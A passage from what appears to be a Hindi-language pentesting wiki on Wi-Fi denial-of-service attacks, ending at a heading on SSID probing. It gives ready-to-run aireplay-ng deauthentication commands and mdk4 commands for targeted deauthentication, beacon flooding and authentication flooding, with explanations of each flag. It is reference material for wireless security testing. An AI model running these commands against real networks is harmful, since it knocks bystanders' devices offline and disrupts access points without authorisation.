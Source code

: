 **Aireplay-ng का उपयोग करके डीऑथेंटिकेशन**
```
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 ath0
```
* \-0 का मतलब होता है डीऑथेंटिकेशन
* 1 डीऑथेंटिकेशन भेजने की संख्या है (आप चाहें तो एकाधिक भेज सकते हैं); 0 का मतलब है उन्हें निरंतरता से भेजें
* \-a 00:14:6C:7E:40:80 एक्सेस प्वाइंट का मैक पता है
* \-c 00:0F:B5:34:30:30 क्लाइंट का मैक पता है जिसे डीऑथेंटिकेट करना है; यदि यह छोड़ दिया जाता है तो ब्रॉडकास्ट डीऑथेंटिकेशन भेजा जाता है (हमेशा काम नहीं करता)
* ath0 इंटरफेस का नाम है

### डिसेसोसिएशन पैकेट्स

डिसेसोसिएशन पैकेट्स एक और प्रकार के मैनेजमेंट फ्रेम हैं जो नजदीकी एक्सेस प्वाइंट से एक नोड (जैसे कि लैपटॉप या सेल फोन) को डिस्कनेक्ट करने के लिए उपयोग किया जाता है। डीऑथेंटिकेशन और डिसेसोसिएशन फ्रेम के बीच मुख्य रूप से उपयोग करने का तरीका होता है।

एक एपी जो एक अवैध उपकरण को डिस्कनेक्ट करना चाहता है, उसे डीऑथेंटिकेशन पैकेट भेजता है ताकि उपकरण को सूचित किया जा सके कि उसे नेटवर्क से डिस्कनेक्ट कर दिया गया है, जबकि डिसेसोसिएशन पैकेट का उपयोग अपने आप को डिस्कनेक्ट करने के लिए किया जाता है जब एपी बंद हो रहा हो, रिबूट हो रहा हो, या क्षेत्र से बाहर जा रहा हो।

**यहां से विवरण** [**यहां**](https://null-byte.wonderhowto.com/how-to/use-mdk3-for-advanced-wi-fi-jamming-0185832/)** लिया गया है।**

**इस हमले को mdk4 (मोड "d") द्वारा किया जा सकता है:**
```bash
# -c <channel>
# -b victim_client_mac.txt contains the MAC address of the device to eliminate
# -e WifiName is the name of the wifi
# -B BSSID is the BSSID of the AP
# Notice that these and other parameters aare optional, you could give onli the ESSID and md4k will automatically search for it, wait for finding clients and deauthenticate them
mdk4 wlan0mon d -c 5 -b victim_client_mac.txt -E WifiName -B EF:60:69:D7:69:2F
```
### **mdk4 द्वारा अधिक DOS हमले**

**यहां से** [**यहां**](https://en.kali.tools/?p=864)**।**

**हमला मोड b: बीकन फ्लडिंग**

यह क्लाइंट्स को नकली एपी को दिखाने के लिए बीकन फ्रेम भेजता है। यह कभी-कभी नेटवर्क स्कैनर और ड्राइवर को भी क्रैश कर सकता है!
```bash
# -a Use also non-printable caracters in generated SSIDs and create SSIDs that break the 32-byte limit
# -w n (create Open) t (Create WPA/TKIP) a (Create WPA2/AES)
# -m use real BSSIDS
# All the parameters are optional and you could load ESSIDs from a file
mdk4 wlan0mon b -a -w nta -m
```
**हमला मोड a: प्रमाणीकरण अस्वीकृति-सेवा**

पास में पाए गए सभी एपी में प्रमाणीकरण फ्रेम भेजता है। बहुत सारे क्लाइंट्स से कई एपी को जमा कर देने से यह जमा या रीसेट हो सकते हैं।
```bash
# -a BSSID send random data from random clients to try the DoS
# -i BSSID capture and repeat pakets from authenticated clients
# -m use real MACs
# only -a or -i can be used
mdk4 wlan0mon a [-i EF:60:69:D7:69:2F] [-a EF:60:69:D7:69:2F] -m
```
**हमला मोड p: एसएसआईडी प्रोबिंग और ब्रूटफोर्सिंग**
